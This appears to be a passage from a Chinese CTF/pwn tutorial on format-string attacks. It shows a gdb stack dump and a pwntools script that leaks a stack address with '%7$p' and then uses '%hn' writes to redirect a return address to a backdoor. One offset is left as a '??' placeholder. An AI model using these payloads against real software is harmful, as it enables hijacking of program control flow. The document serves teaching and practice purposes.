 ```gdb
0xffffd00c│+0x0040: 0x80492a2  →  <main+21> mov eax, 0x0
0xffffd010│+0x0044: 0xffffd29e  →  "/home/iotang/..."
0xffffd014│+0x0048: 0x000070 ("p"?)
0xffffd018│+0x004c: 0xf7ffd020  →  0xf7ffda40  →  0x00000000
0xffffd01c│+0x0050: 0xf7d99519  →   add esp, 0x10
0xffffd020│+0x0054: 0x00000001
0xffffd024│+0x0058: 0xffffd0d4  →  0xffffd29e  →  "/home/iotang/..."
0xffffd028│+0x005c: 0xffffd0dc  →  0xffffd2c3  →  "SHELL=..."
0xffffd02c│+0x0060: 0xffffd040  →  0xf7fa2000  →  0x00229dac
0xffffd030│+0x0064: 0xf7fa2000  →  0x00229dac
0xffffd034│+0x0068: 0x804928d  →  <main+0> push ebp
0xffffd038│+0x006c: 0x00000001
0xffffd03c│+0x0070: 0xffffd0d4  →  0xffffd29e  →  "/home/iotang/..."
0xffffd040│+0x0074: 0xf7fa2000  →  0x00229dac
```

看那个 $ebp 串起来的链！

```python
payload = b"%7$p"
p.sendline(payload) # 第一次 printf：拿到 ebp。

p.recvline()
stackaddr = int(p.recv(), 16)
taraddr = stackaddr - 0x10
payload2 = b'%' + str(taraddr & 0xffff).encode() + b"c%7$hn"
p.sendline(payload2) # 第二次 printf：确定攻击对象。

payload3 = b'%' + str(backaddr & 0xffff).encode() + b"c%??$hn"
p.sendline(payload3) # 第三次 printf：修改成后门地址。
```

（有现成的轮子：pwntools: pwnlib.fmtstr。[去看看](https://docs.pwntools.com/en/stable/fmtstr.html)。）
